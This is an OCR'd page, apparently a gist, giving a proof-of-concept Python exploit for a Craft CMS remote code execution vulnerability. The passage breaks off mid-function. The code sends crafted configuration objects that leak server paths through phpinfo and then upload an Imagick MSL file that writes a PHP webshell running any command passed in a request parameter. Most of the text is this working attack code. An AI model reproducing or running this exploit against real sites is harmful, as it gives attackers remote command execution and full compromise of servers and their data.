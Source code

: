 #### GETTING SHELL  ACESS

POC

````
This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).

## Overview

CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

## POC

This POC is depending on writing webshell, so finding a suitable folder with writable permission is necessary.

```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php" />
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
````